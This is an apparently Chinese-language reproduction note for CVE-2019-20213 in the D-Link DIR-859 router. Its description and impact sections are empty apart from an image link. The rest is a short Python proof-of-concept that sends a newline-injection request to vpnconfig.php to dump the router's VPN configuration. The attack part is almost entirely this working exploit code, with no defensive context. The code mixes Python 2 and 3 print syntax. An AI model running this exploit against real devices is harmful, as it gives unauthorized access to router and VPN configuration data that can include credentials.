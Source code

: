## 一、漏洞简介

## 二、漏洞影响

![image](.resource/%EF%BC%88CVE-2019%E2%80%9320213%EF%BC%89D-Link%20DIR-859%20rce/media/6-20201014111625558.png)

## 三、复现过程

```
import requests
# Miguel Mendez Z.
FILES = ["vpnconfig.php"]
IP = "192.168.0.1"
PORT = "80"
headers = {'content-type': 'application/x-www-form-urlencoded'}
print "\n-----------VPN-------------\n"
url_vpn = 'http://{ip}:{port}/{file1}?pwnd=%0a'.format(ip=IP, port=PORT, file1=FILES[0])
print(requests.get(url_vpn).text)
```